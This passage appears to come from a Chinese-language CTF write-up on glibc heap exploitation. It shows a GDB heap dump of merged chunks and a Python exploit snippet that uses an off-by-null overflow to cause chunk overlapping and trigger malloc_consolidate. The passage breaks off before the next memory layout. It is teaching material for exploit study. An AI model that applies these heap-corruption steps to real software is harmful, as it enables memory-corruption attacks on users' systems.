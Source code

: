此时的堆结构如下:  
```
0x555555757000:	0x0000000000000000	0x0000000000000181      //成功合并了这几个堆块儿
0x555555757010:	0x00007ffff7dd1ce8	0x00007ffff7dd1ce8
0x555555757020:	0x0000000000000000	0x0000000000000000
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000000
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000121
0x555555757070:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757080:	0x0000000000000000	0x0000000000000000
0x555555757090:	0x0000000000000000	0x0000000000000000
0x5555557570a0:	0x0000000000000000	0x0000000000000000
0x5555557570b0:	0x0000000000000000	0x0000000000000000
0x5555557570c0:	0x0000000000000000	0x00000000000000c1
0x5555557570d0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x5555557570e0:	0x0000000000000000	0x0000000000000000
0x5555557570f0:	0x0000000000000000	0x0000000000000000
0x555555757100:	0x0000000000000000	0x0000000000000000
0x555555757110:	0x0000000000000000	0x0000000000000000
0x555555757120:	0x0000000000000000	0x0000000000000061
0x555555757130:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000000	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000180	0x0000000000000060     /prv_size=180
0x555555757190:	0x0000000a63636363	0x0000000000000000
0x5555557571a0:	0x0000000000000000	0x0000000000000000
0x5555557571b0:	0x0000000000000000	0x0000000000000000
0x5555557571c0:	0x0000000000000000	0x0000000000000000
0x5555557571d0:	0x0000000000000000	0x0000000000000000

```

- 通过`off-by-null`触发`chunk overlapping`,然后触发两次`malloc_consolidate`,进行堆块合并:  

```python
add(88,0,'e'*87)   //改写size
add(0x28,1,'B'*0x20 + '\x40')
add(0x30,2,'C'*0x30)
p.sendlineafter("oice >> \n",'1'*0x500)
add(88,0,'e'*87)
add(0x28,1,'B'*0x20 + '\x40')
add(0x30,2,'C'*0x30)

remove(1)
p.sendlineafter("oice >> \n",'1'*0x500)

remove(4)

p.sendlineafter("oice >> \n",'1'*0x500)
```
此时的内存布局如下:  
